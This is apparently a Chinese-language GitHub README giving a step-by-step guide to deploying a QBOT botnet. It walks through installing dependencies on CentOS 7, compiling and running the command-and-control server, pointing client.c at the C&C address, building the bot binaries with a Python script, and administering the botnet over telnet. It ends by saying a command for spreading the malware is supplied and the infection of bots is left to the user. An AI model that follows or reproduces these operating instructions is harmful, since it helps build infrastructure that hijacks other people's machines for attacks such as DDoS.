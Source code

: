 # 非常哈基米的僵尸网络(QBOT)  
`首先你得有一个centos 7系统`  
然后安装依赖  
```bash
curl -o /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
yum update -y
yum install epel-release -y
yum install vim screen gcc perl wget lbzip bzip2 unzip httpd -y
```
## 然后编译cnc主端  
```bash
gcc server.c -o server -pthread
```
## 编译完主端你就可以先运行了
```bash
#创建一个登录文件
vi login.txt
#格式:
用户名 密码
#然后启动主端
screen ./server 监听僵尸端口 线程 telnet连接端口
ctrl+a+d退出
如果你想查看主端可以先输入指令
screen -ls
查看会话
然后
screen -r 会话名
```
## 更换client.c的cnc 地址和端口
```c
client.c:


unsigned char *commServer[] = {"ip:port", "ip:port"};

```
## 编译僵尸
```python
python bot_install.py
```
## 连接cnc端
```
目前Windows自带的telnet连接不怎么行，跟坨臭屎一样
所以你需要一个Linux系统，乌班图或者centos
有些不自带telnet，自己去搜安装方式
安装完之后
telnet 你的服务器的公网ip 你设置的连接端口
```
## 教程结束，完结撒花
`完事就是这么简单`  
`传马命令他会给出的`  
`后面僵尸自己弄`  
